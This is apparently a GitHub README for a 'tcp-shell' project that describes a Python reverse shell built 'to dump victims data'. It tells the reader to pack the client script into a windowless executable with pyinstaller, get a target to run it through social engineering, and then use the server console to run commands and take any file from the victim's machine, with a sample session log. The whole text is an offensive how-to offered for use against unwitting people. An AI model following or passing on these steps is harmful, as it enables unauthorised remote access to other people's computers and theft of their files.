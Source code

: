 # tcp-shell
hacking through tcp reverse shell to dump victims data
HERE i have provided two files 

1)myser.py

its job is to create a tcp server on our system and make a connection from victim

2)mycli.py

its job is to connect to server .mycli.py is a python script so its too weird to execute a python script on target machine

next step invoves changing the mycli.py to exe(executable file) 
it involves a module importing

pyinstaller

to import it:in terminal just type

pip install pyinstaller

pyinstaller -F -w client.py

yahoo next to send the exe to target .it needs some social enginnering skills

o executing methods
  
  python3 myser.py
  
  enter the ip:192.168.43.155 (enter your ip here)
  
  enter the port:8080
  
  [+] listening for incoming connections
  
  [+] connection established ('192.168.43.155', 52902)(when target clicks the exe)
  
  shell>>ipconfig
  
  shell>>terminate(close the connection)
  
  shell>>dir (shows windows diectory)
  
  shell>>grab=(any file on target)

  

  
  

  
  

  

  

